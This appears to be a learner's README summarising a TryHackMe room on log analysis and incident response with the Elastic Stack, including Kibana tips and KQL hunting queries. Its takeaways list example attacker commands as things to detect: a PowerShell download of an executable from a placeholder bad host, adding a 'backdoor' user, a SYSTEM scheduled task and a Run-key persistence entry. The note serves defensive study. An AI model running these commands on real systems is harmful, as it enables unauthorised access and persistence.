 
<a href="https://tryhackme.com/room/servidae" target="_blank"><img src="./banner.png" width="700px" /></a>

## Summary

This is an introductionary room that introduces the following tools that can be applied to log analysis and DFIR with the ["Elastic Stack"](https://www.elastic.co/elastic-stack), or the _ELK Stack_, which consists of:

* Elasticsearch: https://www.elastic.co/elasticsearch 
    * Described as "an open-source, distributed search and analytics engine designed for storing and indexing large volumes of data." (quoted from the [THM room, task #2](https://tryhackme.com/room/servidae))
* Logstash: https://www.elastic.co/logstash 
    * Described as a "tool primarily used to collect, process, and transform data from various sources and prepare it for storage in Elasticsearch or other systems." (quoted from the [THM room, task #2](https://tryhackme.com/room/servidae))
* Kibana: https://www.elastic.co/kibana
    * Described as "the interactive graphical and visual front-end powering the Elastic Stack." (quoted from the [THM room, task #2](https://tryhackme.com/room/servidae))

### Takeaways

I have not done a writeup for this room, but I can recommend one written by \([Alan 2023](https://medium.com/@josephalan17201972/servidae-log-analysis-in-elk-tryhackme-write-up-52a7902c7892)\) for anyone who wants to follow along. Some things that I found interesting are:

* Basic Notions in Kibana:
    * The __Discover__ tab is where analysts go to for basic exploration, querying and analysis of real time data.
    * The time zone that ELK assumes when doing analysis can be changed over at ``http://MACHINE_IP/app/management/kibana/settings?query=time+zone``
    * A __time filter__ is used in the __Discover__ tab to filter events within a specified time range.
    * The _ECS Field Reference_ \([Elastic, n.d.(https://www.elastic.co/guide/en/ecs/current/ecs-field-reference.html)\) is to be referenced when selecting fields and columns to analyse.
* KQL Queries are used to query ELK-stack powered databases. Some examples are:
    * Searches for MSI files: ``process.command_line: *msi*``
    * Searches for suspicious uses of the cURL command: ``process.name : "curl.exe" AND NOT process.command_line : *beacon*``
    * Searches for PHP cookies/POST data: ``*PHPSESSID*``
    * More sophisticated search for suspicious uses of the cURL command: ``process.name: "curl.exe" AND NOT process.command_line: *beacon* AND process.command_line: *[bad URL]*``
* Suspicious PowerShell commands include:
    * ``powershell -c Invoke-WebRequest -Uri "http://[bad website]/[bad file].exe" -OutFile "[bad file].exe"``
    * ``net user backdoor backdoor /add /expires:never /passwordchg:no``
    * ``schtasks /create /tn "[Bad Service Name]" /tr "[full path to bad batch file].bat" /sc minute /mo 1 /ru "System"``
    * ``reg add "HKCU\Software\Microsoft\Windows\CurrentVersion\Run" /v "[bad registry run value]" /t REG_SZ /d "[full path to bad executable or script]" /f``
* Follow up resources include:
    * [Alan (2023)](https://medium.com/@josephalan17201972/servidae-log-analysis-in-elk-tryhackme-write-up-52a7902c7892)'s writeup for this room.
    * A _Computer Security Incident Handling Guide_ \([Cichonski et al. 2012](https://doi.org/10.6028/nist.sp.800-61r2)\) by the NIST discussing their standard for good and high-quality incident response.
    * The [MITRE ATT&CK Framework](https://attack.mitre.org/) to get a "peep into the mind" of an attacker.
    * [Elastic (n.d.-b)](https://www.elastic.co/elastic-stack/)'s article introducing their ELK stack.

## References

* Alan, J. (Oct. 25, 2023) _Servidae: Log Analysis in ELK TryHackMe Write-Up_. Retrieved on Mar 18, 2024 from: https://medium.com/@josephalan17201972/servidae-log-analysis-in-elk-tryhackme-write-up-52a7902c7892
* Cichonski, P., Millar, T., Grance, T., & Scarfone, K. (2012). _Computer Security Incident Handling Guide: Recommendations of the National Institute of Standards and Technology_. National Institute of Standards and Technology. https://doi.org/10.6028/nist.sp.800-61r2 
* Elastic (n.d.). _ECS Field Reference._ Retrieved on Mar. 18, 2024 from: https://www.elastic.co/guide/en/ecs/current/ecs-field-reference.html
* Elastic (n.d.-b). _Meet the search platform that helps you search, solve, and succeed._ Retrieved on Mar. 18, 2024 from: https://www.elastic.co/elastic-stack/
* MITRE ATT&CK Framework (n.d.). Retrieved on Mar. 18, 2024 from: https://attack.mitre.org/

